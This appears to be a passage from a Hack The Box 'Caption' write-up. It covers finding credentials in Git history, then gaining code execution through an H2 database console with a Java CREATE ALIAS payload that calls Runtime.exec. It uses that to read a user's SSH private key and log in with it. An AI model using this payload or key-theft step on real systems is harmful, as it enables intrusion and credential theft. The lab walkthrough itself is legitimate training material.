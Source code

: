 Revealing some of the `credentials` vis `Git History` which is present in the interface

![Discovering Port 8080](05.png){: width="1200" height="800" }

In the `Caption — Portal` repository , I have found a sensitive information as credentials for logging into the web portal that has been hosted in the `port number 80` , if you didn't find it heres the hink for it always check commit histories.

Taking those credentials and logging in the `port number 80`
![/etc/hosts](06.png){: width="1200" height="800" }

With the help of the creds I gained an low level access now we have to escalate the privileges of it .

For further information by some random guess which I have done on one machine it is trying sql injection in interface ( Git bucket ) . I didn't get any HTTP service information so I returned to the system administration section and here I have noticed an viewer of the database which manages the H2 database and it is vulnerable to the RCE attack by using the sql . I have used an exploit which found on open internet that execute the command :

```console
CREATE ALIAS REVEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {

java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");

return s.hasNext() ? s.next() : "";

}$$;
```
![/etc/hosts](07.png){: width="1200" height="800" }

After executing this, we can execute our commands.
```console
CALL REVEXEC('cat /home/ .ssh/id_id_ecdsa');
```

![/etc/hosts](08.png){: width="1200" height="800" }

Trying SSH in the Box which can give us an information or any hint

as i have went through margo's files, I found something interesting — a private SSH key! I saved it locally and used it to log into the system as margo.

```console
└─# ssh -i margo_key margo@caption.htb 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0–119-generic x86_64) 

* Documentation: https://help.ubuntu.com 

* Management: https://landscape.canonical.com

* Support: https://ubuntu.com/pro System information as of Mon Sep 27 6:33:10 PM UTC 2024 System load: 0.0 Processes: 233 Usage of /: 68.7% of 8.76GB Users logged in: 0 Memory usage: 17% IPv4 address for eth0: 10.129.46.159 Swap usage: 0%
```
After copying the key and setting the proper permissions, I was able to SSH into the machine as Margo.

